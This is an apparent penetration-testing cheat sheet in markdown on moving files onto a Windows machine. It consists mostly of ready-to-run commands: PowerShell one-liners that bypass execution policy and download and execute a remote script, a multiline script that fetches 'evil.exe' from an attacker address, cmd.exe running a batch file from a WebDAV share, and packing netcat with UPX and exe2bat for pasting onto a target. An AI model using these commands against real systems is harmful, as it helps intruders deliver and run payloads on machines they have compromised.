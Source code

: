 # Upload
Upload to a Windows machine

## Download one liners:
https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

## Download file with PowerShell

* Oneliner
  ```
  c:> powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
  ```
* Oneliner downloading from WebDAV server
  ```
  c:> powershell -exec bypass -f \\webdavserver\folder\payload.ps1
  ```

* Complicated / multiline
  ```
  c:> echo $storageDir = $pwd > wget.ps1
  c:> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
  c:> echo $url = "http://192.168.10.5/evil.exe" >>wget.ps1
  c:> echo $file = "new-exploit.exe" >>wget.ps1
  c:> echo $webclient.DownloadFile($url,$file) >>wget.ps1
  c:> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive - NoProfile -File wget.ps1
  ```
## Cmd

* It is possible to embed **any file type** in a batch file and have it downloaded and executed via `cmd.exe`
  ```
  c:> cmd.exe /k < \\webdavserver\folder\batchfile.txt
  ```

See also [Invoke-EmbedInBatch Powershell script](https://github.com/Arno0x/PowerShellScripts#invoke-embedinbatch)


## Upload executable as text file
* UPX is a portable, extendable, high-performance executable packer for several different executable formats.
* UPX optimizes executable before uploading.
* First use upx or similar to compress the executable (on Kali)
  ```
  # upx -9 nc.exe
  ```

* Then use exe2bat to convert the executable into a series of echo commands that are meant to be copied pasted in the remote system
  ```
  # wine exe2bat.exe nc.exe nc.txt
  ```
